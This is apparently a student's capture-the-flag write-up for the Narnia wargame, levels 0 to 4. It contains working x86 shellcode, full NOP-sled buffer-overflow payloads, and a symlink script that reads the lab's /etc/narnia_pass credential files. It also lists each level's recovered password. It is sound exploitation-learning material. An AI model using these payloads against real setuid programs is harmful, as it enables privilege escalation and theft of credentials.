

# Narnia

## Level 0

I head to the /narnia directory and find the source code and binary there.


Let's execute the program `narnia0` and see what will happen.


When I saw `0xdeadbeef`, I immediately thought of what I learned in the lecture about buffer overflow. In other words, I need to change the value of `val` through buffer overflow.

Let's have a look at the source code.


I found that the `scanf()` function allows the user to enter 24 chars but the `buf` variable is 20 bytes so I need to overwrite 4 bytes.


As we can see, we were able to modify the original value of val with 0x42424242. We will do the same thing for 0xdeadbeef. And note that the input address must be in little-endian format.

By the way, since Python 3, the print function automatically encodes rather than outputs raw bytes. This is why the lecture video uses Python 2 instead of Python 3. Therefore, I need to use the `sys.stdout.buffer.write()` command to directly input the binary data of the address.


Although I successfully changed the value of `val` to `0xdeadbeef`, the program ended immediately. I couldn't do anything. After reading online, I realized that adding the `cat` command helps with keeping the called `/bin/bash` by the program.

**Password: WDcYUTG5ul**


## Level 1

Let's execute the `narnia1` program and see what will happen.


It seems that I need to initialize an environment variable named EGG. Let’s have a look at the source code.


I found that the code will execute anything I put in the `EGG` environment variable. So if I put a shellcode that can run a interactive shell, I can maybe get the password. I chose a shellcode from [Shellcodes database](https://shell-storm.org/shellcode/files/shellcode-811.html)

```bash
export EGG=$(echo -n -e "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80")
```


Although the shell was successfully started, the current user is still narnia1 instead of narnia2. After searching online, I realized that this was due to a permission inheritance issue.

To figure this out, I need to understand two concepts.

1. Real User ID (ruid):
   This is the real UID of the user who started the process. It represents the actual owner of the process.

2. Effective User ID (euid):
   This is the process's current effective UID. It determines the access privileges that the process has when performing operations such as opening files and creating processes.

When a process executes a program file with the `setuid` bit set, the `euid` of the new process is set to the UID of the file owner.


I found that `narnia1` has the setuid bit set and the owner has execute permissions. Therefore, the problem does not lie here.

I suddenly realized that since the original command of the shellcode used above was `execv("/bin/sh")`, it did not have setuid bit set. Therefore, when `narnia1` executed the new program, the EUID reverted to RUID. So I found a new [shellcode](https://shell-storm.org/shellcode/files/shellcode-399.html).

```bash
setreuid(geteuid(),geteuid()),execve("/bin/sh",0,0)

export EGG=$(echo -n -e "\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80")
```

After using this shellcode, I successfully got the password.

**Password: 5agRAXeBdG**


## Level 2


After running Narnia several times, I didn't find any clues. So let's take a look at the source code first.


At first glance, this looks like another buffer overflow attack. The program initializes a buffer of 128 bytes, and copies user argument input into it. If the argument is larger than 128 bytes, it will overflow the buffer. Then I can overwrite the return address and make CPU "slide" into the specific command.

Let's use `gdb` to disassemble the binary.


With breakpoint set I can run my payload to determine the offset. Knowing the offset is important because I need to know the size of my exploit and knowing where to set the return address. I tried to use 128 "A"s plus 4 "B"s at first.


It seems not work. Let's increase the number of "A"s and try again.


Great! I can see that EIP register was overwritten by our B’s. Now I have the offset and know the size that I am working with. I need to craft our exploit. I will use the shellcode used in the last level. The memory looks like as the graph shown below.


Taking my payload of 136 "A"s and replace them with a NOP sled (`\x90`), minus 34 bytes for the shellcode and 4 bytes for the EIP. The NOP sled is used to direct the CPU’s instruction execution flow to a desired destination. In this case our shellcode.

```bash
(gdb) r $(echo -n -e "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x6a\x31\x58\x31\xd2\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80\x90\x90\x90\x90\x28\xd5\xff\xff")

(gdb) x/300wx $esp
```


As we can see the buffer starts at approximately `0xffffd4f8`. Since memory location may change from run to run, I need to use a nop sled and approximate the memory location when running the program. While I land in 100 byte range, I will slide right into my shellcode.

```bash
$ ./narnia2 $(echo -n -e "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x6a\x31\x58\x31\xd2\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80\x90\x90\x90\x90\x28\xd5\xff\xff")
```

**Password: 2xszzNl6uG**


## Level 3

Let's read the source code first.



From what I can understand, the program opens a file that is given with argv, reads it, and writes it content into ofd, which in our case is /dev/null. The key point is that there is no boundary check on the input file name. So if I overflow the `ifile`, I could overwrite the `ofile` and make the programme save the outputs into a file I can read.

Since I can't directly access the password, I need to create a link to the file with `ln -s /etc/narnia_pass/narnia4 /tmp/pass_link`. I wrote a bash script to do it.

```bash
#!/bin/bash

mkdir -p /tmp/aaaaaaaaaaaaaaaaaaaaaaaaaaa/tmp
ln -s /etc/narnia_pass/narnia3 /tmp/aaaaaaaaaaaaaaaaaaaaaaaaaaa/tmp/pass
touch /tmp/pass

/narnia/narnia3 /tmp/aaaaaaaaaaaaaaaaaaaaaaaaaaa/tmp/pass

cat /tmp/pass
```

After running the script, I got the password.

**Password: iqNWNk173q**


## Level 4

I tried to execute the program but nothing happens. So I took a look at the source code.


It is similar to the level 2 but I don’t have any output from the program. I know the buffer size is 256 so I can start with that. What I need to do is to find the return address.


So I need 256 bytes and 4 more bytes to overwrite the return address. Let’s find a return address using a shellcode.


I’ll use `0xffffd524`. And it worked. Let's do the same thing outside of `gdb`.


I got the password.

**Password: Ni3xHPEuuw**


